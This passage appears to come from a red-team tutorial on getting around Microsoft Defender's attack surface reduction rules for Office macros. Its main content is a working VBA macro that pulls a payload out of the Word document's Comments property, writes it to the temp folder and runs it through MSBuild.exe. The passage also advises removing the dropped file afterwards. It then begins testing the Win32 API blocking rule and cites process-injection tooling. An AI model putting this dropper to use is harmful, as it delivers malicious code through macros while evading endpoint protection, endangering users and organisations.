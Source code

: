 ![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/word_comments.png)

```vb
Sub Exec()
    Dim comment As String
    Dim fSo As Object
    Dim dropper As Object
    Dim wsh As Object
    Dim temp As String
    Dim command As String
    
    temp = LCase(Environ("TEMP"))
    
    Set fSo = CreateObject("Scripting.FileSystemObject")
    Set dropper = fSo.CreateTextFile(temp & "\code.xml", True)
    
    comment = ActiveDocument.BuiltInDocumentProperties("Comments").Value
    
    dropper.WriteLine comment
    dropper.Close
    
    Set wsh = CreateObject("WScript.Shell")
    
    command = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe " & temp & "\code.xml"
    
    wsh.Run command
    
    Set fSo = Nothing
    Set dropper = Nothing
    Set wsh = Nothing
End Sub
```

##### Remember that this drops the code to disk, so ensure you remove it afterwards.

# Block Win32 APIs

_"This rule prevents VBA macros from calling Win32 APIs."_

Many popular tools, such as [VBA-RunPE](https://github.com/itm4n/VBA-RunPE), use P/Invoke within VBA to carry out actions such as process injection.  The way this rule is implemented seems rather odd.  If you create a word document and attempt to pop a message box, it will work.

Private Declare PtrSafe Function MessageBoxA Lib "user32.dll" (ByVal hWnd As Long, ByVal lpText As String, ByVal lpCaption As String, ByVal uType As Long) As Long
```vb
Sub Exec()
    Dim Result As Long
    Result = MessageBoxA(0, "This is a test", "Hello World", 0)
End Sub
```
